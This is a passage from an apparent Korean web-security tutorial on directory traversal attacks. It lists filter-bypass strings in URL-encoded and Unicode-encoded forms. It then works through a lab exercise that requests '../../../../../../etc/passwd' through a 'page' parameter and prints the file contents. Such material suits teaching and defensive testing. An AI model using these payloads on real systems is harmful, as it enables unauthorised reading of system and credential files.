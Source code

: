 웹 브라우저를 통해 해당 파일의 내용이 표시된다면 디렉터리 순회 공격에 취약한 것이다. 하지만 개발자가 디렉터리 순회 공격을 방어하기 위해서 사용자로부터 전달받은 데이터에 대한 유효성 검사를 할 경우 위와 같은 기본적인 방법은 차단 될 수 있으니, 필터 우회를 시도해야한다.

## 3. 유효성 검사 우회
안전하지 않은 방법으로 구현된 필터는 검증 로직의 결함을 파악하여 우회할 수 있다
../, ..\ 를 제거하도록 필터를 적용했으나, 재귀적으로 제거하지 않은 필터의 경우에는 다음과 같은 공격 문자열을 통해 우회를 시도한다
```
....//     -----필터----->     ../
..././     -----필터----->     ../
....\\     -----필터----->     ..\
...\.\     -----필터----->     ..\
....\/     -----필터----->     ../
..../\     -----필터----->     ..\
```
또는 각각의 문자를 다른 인코딩으로 변환하고 이를 조합한 공격 문자열을 통해 우회가 가능하다
- URL 인코딩
```
%2e%2e/%2e%2e%2f%252e%252e%252f%2e%2e\%2e%2e%5c%252e%252e%255c
```
- 16bit 유니코드 인코딩
```
%u002e%u002e/
%u002e%u002e%u2215
%u002e%u002e\
%u002e%u002e%u2216
```

# 실습 문제 풀이 
## Exercise 1
| Home, About 메뉴를 클릭하면 "page"라는 GET 매개변수를 통해 해당되는 파일명을 요청하고 파일의 내용을 웹 브라우저에 표시합니다. 

```
https://.../pathtrav_ex1.php?page=../../../../../../etc/passwd


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false

```
